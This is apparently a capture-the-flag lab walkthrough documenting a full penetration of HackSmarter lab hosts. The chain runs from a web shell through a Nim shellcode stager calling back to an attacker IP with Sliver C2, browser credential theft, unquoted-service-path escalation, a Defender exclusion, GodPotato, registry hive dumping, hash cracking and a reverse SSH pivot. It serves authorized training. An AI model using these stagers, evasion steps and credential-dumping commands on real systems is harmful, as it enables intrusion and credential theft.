










This is a black-box penetration test against two hosts:
The engagement is complete upon retrieving the final flag from sqlsrv.hacksmarter.
Another operator already exploited a file upload vulnerability and provided a web shell:
http://web.hacksmarter/hacksmarter/shell.php?cmd=whoamiI started with a full port scan of the web server:
$ nmap -p- -T4 -sC -sV -Pn web.hacksmarter -oN nmap_scanPORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.0.30)
| http-title: Welcome to XAMPP
|_Requested resource was http://web.hacksmarter/dashboard/
443/tcp open ssl/http Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: EC2AMAZ-IBNMCK4
| Product_Version: 10.0.20348
5357/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)-oN flag saves output in normal format. The original used -o which is not a valid nmap flag.
Key findings:
I navigated to the web shell URL to confirm RCE:

Since Windows Defender is enabled, I needed to use a staged payload approach. The stager downloads shellcode into memory at runtime, making it harder for AV to detect.
In Sliver C2, I generated shellcode and started an mTLS listener:
sliver > generate --mtls 10.200.27.205:443 --os windows --arch amd64 --format shellcode --save /tmp/shell.bin
[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 34s
[*] Implant saved to /tmp/shell.bin
sliver > mtls -L 10.200.27.205 -l 443
[*] Starting mTLS listener ...
[*] Successfully started job #1I compiled this Nim stager on a Windows VM. The stager fetches shellcode over HTTP and executes it in memory:
import winim/lean
import httpclient
func toByteSeq*(str: string): seq[byte] {.inline.} =
@(str.toOpenArrayByte(0, str.high))
proc DownloadExecute(url: string): void =
var client = newHttpClient()
var response: string = client.getContent(url)
var shellcode: seq[byte] = toByteSeq(response)
let tProcess = GetCurrentProcessId()
var pHandle: HANDLE = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tProcess)
defer: CloseHandle(pHandle)
let rPtr = VirtualAllocEx(pHandle, NULL, cast[SIZE_T](len(shellcode)), 0x3000, PAGE_EXECUTE_READ_WRITE)
copyMem(rPtr, addr shellcode[0], len(shellcode))
let f = cast[proc() {.nimcall.}](rPtr)
f()
when defined(windows):
when isMainModule:
DownloadExecute("http://10.200.27.205:8080/shell.bin")winim library provides Windows API bindings.
Compile with:
PS C:\> nim c -d:release --cpu:amd64 --os:windows stager.nim
I set up an SMB server to transfer the compiled stager:
$ impacket-smbserver sharename . -smb2support -username panos -password panos123Then connected from Windows and copied the file:

I moved the shellcode to my working directory and started an HTTP server:
$ mv /tmp/shell.bin .
$ python3 -m http.server 8080Using the web shell, I uploaded the stager with a URL-encoded PowerShell command:
powershell -ep bypass -c "iwr -uri http://10.200.27.205:8080/stager.exe -outfile C:\xampp\htdocs\hacksmarter\uploads\stager.exe"URL-encoded:
powershell%20-ep%20bypass%20-c%20%22iwr%20-uri%20http://10.200.27.205:8080/stager.exe%20-outfile%20C:\xampp\htdocs\hacksmarter\uploads\stager.exe%22
I executed the stager through the web shell, which fetched the shellcode:

And received a Sliver session:
Using SharpChrome from Sliver's armory, I extracted saved browser credentials:
sliver (MYSTERIOUS_RECREATION) > sharpchrome logins /browser:Edge
[*] AES state key file : C:\Users\j.smith\AppData\Local\Microsoft\Edge\User Data\Local State
--- Credential (Path: C:\Users\j.smith\AppData\Local\Microsoft\Edge\User Data\Default\Login Data) ---
file_path,signon_realm,origin_url,date_created,times_used,username,password
...,https://hacksmarter.org/,https://hacksmarter.org/,...,b.morgan,[REDACTED]Credentials found: b.morgan:[REDACTED]
With these credentials, I established an RDP session:
$ xfreerdp /u:b.morgan /p:'[REDACTED]' /v:web.hacksmarter
I enumerated for unquoted service paths:
PS C:\> cmd /c 'wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""'
Note Taking Service NoteTakingSvc C:\Program Files\Note Taking App\notes.exe Auto
When a Windows service path contains spaces and is not enclosed in quotes, Windows searches for executables at each space boundary. For C:\Program Files\Note Taking App\notes.exe, Windows checks in order:
C:\Program.exeC:\Program Files\Note.exeC:\Program Files\Note Taking.exeC:\Program Files\Note Taking App\notes.exeIf we can write to one of these locations, we can place a malicious executable that runs with the service's privileges.
I confirmed write access to the directory:
PS C:\> icacls "C:\Program Files\Note Taking App"
C:\Program Files\Note Taking App EC2AMAZ-IBNMCK4\b.morgan:(OI)(CI)(F)The (F) indicates Full Control, meaning b.morgan can write to this directory.
I created a simple C# payload to add b.morgan to the local administrators group:
using System;
using System.Diagnostics;
class Program
{
static void Main()
{
try
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c net localgroup administrators b.morgan /add";
psi.WindowStyle = ProcessWindowStyle.Hidden;
psi.CreateNoWindow = true;
psi.UseShellExecute = false;
Process.Start(psi);
}
catch { }
}
}Compiled on the target using the built-in C# compiler:
PS C:\> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:"C:\Program Files\Note.exe" /target:winexe addtoadmin.csTriggered the service:
PS C:\> sc.exe start NoteTakingSvcVerified privilege escalation:
PS C:\> net localgroup administrators
Alias name administrators
Members
-------------------------------------------------------------------------------
Administrator
b.morgan
The command completed successfully.I ran into issues with Windows Defender when trying to dump credentials directly. To work around this, I added an AV exclusion path (requires accepting UAC since b.morgan is now a local admin):
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Temp"Downloaded GodPotato:
PS C:\> iwr http://10.200.27.205:8080/GodPotato-NET4.exe -OutFile C:\Windows\Temp\gp.exeVerified SYSTEM access:
PS C:\> C:\Windows\Temp\gp.exe -cmd "whoami"
nt authority\system
I used esentutl (a legitimate Windows binary) to copy protected registry hives:
esentutl.exe is the Extensible Storage Engine utility, normally used for database operations, but its /y /vss flags allow copying locked files via Volume Shadow Copy.
PS C:\> C:\Windows\Temp\gp.exe -cmd "esentutl.exe /y /vss C:\Windows\System32\config\SAM /d C:\Windows\Temp\sam"
PS C:\> C:\Windows\Temp\gp.exe -cmd "esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d C:\Windows\Temp\sys"
PS C:\> C:\Windows\Temp\gp.exe -cmd "esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d C:\Windows\Temp\sec"
I transferred the hive files to my attack machine and used secretsdump:
$ impacket-secretsdump -system sys -sam sam -security sec LOCAL
[*] Target system bootKey: 0x...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
j.smith:1002:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
b.morgan:1003:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
p.richardson:1006:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::These are Windows registry hive files:
You need both SAM and SYSTEM together to extract usable NTLM hashes.
I cracked p.richardson's hash with hashcat:
$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt[REDACTED]:[REDACTED]New credentials: p.richardson:[REDACTED]
I established a reverse SSH tunnel from the Windows box to create a SOCKS proxy. First, I started an SSH server on my attack machine on a non-standard port:
$ sudo systemctl start ssh
# Or use a custom port with: ssh -p 2222Then from the Windows target:
> ssh -N -R 1080 kali@10.200.27.205 -p 2222
-N flag means no remote command (just forwarding), and -R 1080 opens port 1080 on your attack machine as a SOCKS proxy. All traffic sent to localhost:1080 gets forwarded through the compromised Windows host to reach internal systems that are otherwise inaccessible.
I added the SOCKS5 proxy to /etc/proxychains4.conf:
[ProxyList]
socks5 127.0.0.1 1080Using the tunnel, I connected to the internal MySQL server with p.richardson's credentials:
$ proxychains mysql -h 10.1.193.157 -u p.richardson -p --skip-ssl
[proxychains] Strict chain ... 127.0.0.1:1080 ... 10.1.193.157:3306 ... OK
Enter password: [REDACTED]
Welcome to the MariaDB monitor.
Server version: 10.6.22-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04
MariaDB [(none)]>I enumerated the database and retrieved the final flag:
MariaDB [(none)]> show databases;
+--------------------+
| Database |
+--------------------+
| hacksmarter_db |
| information_schema |
+--------------------+
MariaDB [(none)]> use hacksmarter_db;
MariaDB [hacksmarter_db]> show tables;
+--------------------------+
| Tables_in_hacksmarter_db |
+--------------------------+
| final_config |
+--------------------------+
MariaDB [hacksmarter_db]> select * from final_config;
+----+-----------------+----------------------------------------+
| id | key_name | key_value |
+----+-----------------+----------------------------------------+
| 1 | admin_api_token | FLAG{} |
| 2 | system_status | Operational |
+----+-----------------+----------------------------------------+This lab demonstrated a realistic penetration test engagement involving:
| Phase | Technique | Tool/Method |
|---|---|---|
| Initial Access | Staged Payload | Nim stager + Sliver shellcode |
| Credential Access | Browser Credential Theft | SharpChrome |
| Privilege Escalation | Unquoted Service Path | Custom C# binary |
| Privilege Escalation | Token Impersonation | GodPotato |
| Credential Access | Registry Hive Dumping | esentutl (LOLBIN) |
| Credential Access | Offline Hash Extraction | impacket-secretsdump |
| Pivoting | Dynamic Port Forwarding | Reverse SSH tunnel |
Web Shell (provided by prior operator)
|
v
Nim Stager + Sliver C2 --> Session as j.smith (IIS AppPool)
|
v
SharpChrome --> b.morgan browser credentials extracted
|
v
RDP as b.morgan --> Interactive access
|
v
Unquoted Service Path --> b.morgan added to local Administrators
|
v
GodPotato --> SYSTEM access
|
v
SAM/SECURITY Hive Dump --> p.richardson hash cracked
|
v
Reverse SSH Tunnel --> SOCKS proxy to internal network
|
v
MySQL Access (sqlsrv.hacksmarter) --> Final Flag RetrievedWalkthrough by Zerotrace | HackSmarter Labs